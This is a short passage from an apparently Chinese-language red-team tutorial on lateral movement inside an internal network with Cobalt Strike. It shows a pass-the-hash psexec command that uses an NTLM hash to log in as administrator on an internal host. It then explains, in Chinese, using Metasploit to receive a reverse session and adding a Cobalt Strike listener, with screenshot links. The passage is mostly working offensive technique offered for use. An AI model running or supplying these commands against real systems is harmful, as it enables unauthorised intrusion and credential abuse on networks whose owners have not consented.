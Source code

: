```plain
shell psexec -hashes :c780c78872a102256e946b3ad238f661 ./administrator@192.168.91.178
```

[![](assets/1702372940-a9da75025298b2c47fda3a34362d83a0.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/OS/%E5%86%85%E7%BD%91/CS-%E5%86%85%E7%BD%91%E6%A8%AA%E5%90%91/11.png)

因 cs 无法操作交互式命令，也可引用`MSF`回显反弹接受会话  
CS 创建监听

CS 添加 listener  
左上角，`cobalt strike -> listeners -> ADD`

[![](assets/1702372940-ac0b7b4203c0c98807f3cb43ecc802fc.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/OS/%E5%86%85%E7%BD%91/CS-%E5%86%85%E7%BD%91%E6%A8%AA%E5%90%91/12.png)
